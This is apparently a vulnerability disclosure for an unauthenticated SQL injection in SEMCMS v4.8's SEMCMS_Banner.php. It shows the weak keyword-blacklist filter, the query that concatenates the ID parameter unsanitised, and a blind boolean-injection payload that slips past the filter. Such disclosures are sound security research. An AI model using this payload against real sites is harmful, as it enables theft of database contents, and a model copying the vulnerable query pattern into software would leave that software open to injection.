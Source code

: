 #  Semcms v4.8 SEMCMS_Banner.php SQL Injection
- **Exploit Title:**  Semcms v4.8 SEMCMS_Banner.php SQL Injection
- **Date:** 2024-04-01
- **Exploit Author:** shuo sheng,jixin zhang
- **Vendor Homepage:** http://www.sem-cms.com/
- **Software Link:** [https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0](http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip)
- **Version:** Semcmsv4.8

```
v4.8zip download link:http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip
```

###  Vulnerability description

A SQL injection vulnerability exists in the SEMCMS v4.8 backend. The vulnerability results from a lack of validation of externally entered SQL statements in the SEMCMS_Banner.php parameters ID and lgid. An attacker without an account could exploit this vulnerability to execute illegal SQL commands to obtain sensitive data from the database.

###  Vulnerability analysis

filter function：

```php
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
} 
function verify_str($str) { 
       if(inject_check_sql($str)) {
           exit('Sorry,You do this is wrong! (.-.)');
        } 
    return $str;
} 

```

The vulnerability exists on line 32 of SEMCMS_Banner.php:

![image-20240325125850992](https://github.com/ss122-0ss/semcms/assets/131983607/6827dde3-32ea-4718-a64d-af68ab781cd3)


```php
<?php
}elseif($type=="edit"){
    
 $row = mysqli_fetch_array($db_conn->query("SELECT * FROM sc_banner WHERE ID=".$_GET["ID"]));
 
?>
```



The vulnerability exists on line 69 of SEMCMS_Banner.php:

![image-20240325130124241](https://github.com/ss122-0ss/semcms/assets/131983607/3c28e528-52b9-4769-992a-ae5375649f22)


```
payload:-1 or ascii(substr(database(),1,1)) REGEXP char(94,49,48,57,36)
```

When the condition is true:

It should be noted that you need to add pictures before reproducing, otherwise no picture will be generated on the page no matter what the ID and lgid are equal to.
![图片5](https://github.com/ss122-0ss/semcms/assets/131983607/af2efc15-a4ab-49e7-8259-db17468ca54e)

![图片6](https://github.com/ss122-0ss/semcms/assets/131983607/08082be4-0917-4470-b433-c32899ff1db3)

![image-20240325130707386](https://github.com/ss122-0ss/semcms/assets/131983607/17aff268-9248-451f-b996-41386d8fbc54)

![image-20240325130725854](https://github.com/ss122-0ss/semcms/assets/131983607/424699af-1352-483e-b36d-01e07843c169)
